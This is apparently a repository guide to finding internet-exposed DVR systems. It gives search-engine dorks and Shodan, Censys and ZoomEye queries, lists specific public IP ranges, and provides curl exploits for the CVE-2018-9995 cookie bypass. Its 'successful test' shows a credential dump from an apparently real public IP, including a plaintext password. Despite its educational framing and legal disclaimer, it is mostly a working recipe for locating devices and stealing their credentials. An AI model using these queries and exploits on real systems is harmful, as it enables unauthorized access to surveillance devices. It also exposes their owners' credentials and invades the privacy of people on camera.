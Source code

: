 # Finding DVR Systems (Educational Guide)

This guide explains different methods to identify potentially vulnerable DVR systems for research and educational purposes. **Always ensure you have explicit permission to test any systems you identify.**

## Google Dork Techniques

Google dorks are special search queries that help find specific types of web pages. Here are some effective dorks for finding DVR login interfaces:

### Basic DVR Login Page Dorks

```
intitle:"DVR LOGIN" -com
intitle:"DVR Login" -com
intitle:"XVR Login" -com
intitle:"MDVR Login" -com
intitle:"HVR Login" -com
```

### Advanced DVR Search Dorks

```
intitle:"DVR LOGIN" intext:"Username" intext:"Password"
intitle:login inurl:8000 -facebook -twitter
intitle:"Security DVR" "Login" "Password"
```

### Common IP Ranges

From our research, these IP ranges often contain DVR systems:
- 91.201.122.x (ports: 14, 80, 8080)
- 59.26.65.x (ports: 69, 80, 49152)
- 47.113.219.x (ports: 226, 443, 8000)
- 111.11.123.x (various ports)
- 183.136.225.x (various ports)

## Specialized Search Engines

### Shodan.io

Shodan is a search engine for Internet-connected devices. Use these queries:

1. Basic DVR search:
   ```
   title:"DVR LOGIN"
   ```

2. Search by HTTP header:
   ```
   http.component:"dvr" port:80,8080
   ```

3. Search by specific vendor:
   ```
   "Server: DVR Webserver" port:80
   ```

### Censys.io

Censys is another IoT search engine. Try these queries:

1. Basic search:
   ```
   services.banner.title="DVR LOGIN"
   ```

2. By port:
   ```
   services.port=8000 and services.http.response.html_title="DVR"
   ```

### ZoomEye

ZoomEye offers similar functionality:

```
app:"DVR Login"
title:"XVR Login"
```

## Port Scanning

DVRs commonly use these ports:
- 80 (HTTP)
- 8000, 8080 (Alternative HTTP)
- 443, 8443 (HTTPS)
- 37777 (Dahua DVR specific)
- 49152 (Common on some DVR brands)
- 554 (RTSP for video streaming)

## Identifying Vulnerable Systems

A potentially vulnerable system will:

1. Present a login page with "DVR LOGIN" or similar in the title
2. Run older firmware (pre-2018 in many cases)
3. Accept the cookie exploit: `uid=admin` and return user credentials

## Manual Vulnerability Testing

Once you've identified a potential DVR system, you can manually test if it's vulnerable to CVE-2018-9995 using the curl command:

```bash
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

### Example of a Successful Test

```bash
curl "http://59.26.65.69:49152/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
{"result":0,"list":[{"uid":"admin","pwd":"Op1234567#","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
```

A successful exploitation will return credentials in a JSON format that includes:
- Username (`uid`)
- Password (`pwd`) 
- Role information (`role`)
- Other system permissions

### Interpreting Results

- If you receive a JSON response with user credentials as shown above, the system is vulnerable to CVE-2018-9995
- If you receive an error, empty response, or a differently formatted response, the system is likely not vulnerable
- Some systems may have been patched or use different firmware that isn't affected

## Alternative Exploits

For some DVR models, you might also try these variations:

```bash
# Alternative endpoint
curl "http://<dvr_host>:<port>/users.cgi?action=list" -H "Cookie: uid=admin"

# With different cookie
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: dvr_sessionid=admin"
```

## ⚠️ Legal and Ethical Warning

This information is provided **STRICTLY FOR EDUCATIONAL PURPOSES ONLY**. Unauthorized access to computer systems is:

1. Illegal under the Computer Fraud and Abuse Act and similar laws worldwide
2. Unethical and invasive of privacy
3. May result in criminal prosecution

**ONLY test systems you own or have explicit written permission to access.** 